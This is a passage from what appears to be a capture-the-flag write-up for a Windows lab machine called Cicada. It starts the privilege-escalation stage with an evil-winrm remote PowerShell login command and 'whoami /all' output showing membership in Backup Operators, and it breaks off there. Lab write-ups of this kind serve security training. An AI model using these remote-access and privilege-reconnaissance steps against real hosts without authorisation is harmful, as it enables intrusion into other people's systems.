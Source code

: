 User flag secured!

***

## 4. Privilege Escalation

We will use `Evil-winrm` to get a Powershell session on the compromised host.

<pre><code><strong>evil-winrm -i &#x3C;ip> -u &#x3C;user> -p &#x3C;password>
</strong></code></pre>

<figure><img src="../../../../.gitbook/assets/image (609).png" alt=""><figcaption></figcaption></figure>

Remember. After gaining access, always remember to **check your priveleges.**

<pre><code><strong>❯ *Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /all
</strong>
USER INFORMATION
----------------

User Name           SID
=================== =============================================
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

